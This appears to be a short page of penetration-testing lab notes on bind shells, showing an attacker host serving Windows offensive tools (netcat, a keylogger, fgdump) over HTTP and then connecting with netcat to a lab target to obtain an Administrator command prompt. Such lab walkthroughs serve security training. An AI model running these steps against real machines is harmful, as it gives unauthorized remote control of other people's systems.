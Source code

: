 # Bind Shells

AM:

```sh
root@attackdefense:~# cd /usr/share/windows-binaries/
root@attackdefense:/usr/share/windows-binaries# ls
enumplus     fport	  nbtenum    radmin.exe     whoami.exe
exe2bat.exe  klogger.exe  nc.exe     vncviewer.exe
fgdump	     mbenum	  plink.exe  wget.exe
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# ifconfig
eth0: flags=4163&#x3C;UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.10  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:0a  txqueuelen 0  (Ethernet)
        RX packets 5550  bytes 456125 (445.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5520  bytes 3317472 (3.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163&#x3C;UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
<strong>        inet 10.10.12.5  netmask 255.255.255.0  broadcast 10.10.12.255
</strong>        ether 02:42:0a:0a:0c:05  txqueuelen 0  (Ethernet)
        RX packets 15  bytes 1090 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73&#x3C;UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20178  bytes 28898689 (27.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20178  bytes 28898689 (27.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>

TM:

<figure><img src="../.gitbook/assets/Screenshot from 2024-01-13 15-21-05.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot from 2024-01-13 15-25-25.png" alt=""><figcaption></figcaption></figure>

AM:

```sh
root@attackdefense:~# nc -nv 10.5.18.130 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.5.18.130:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>
```

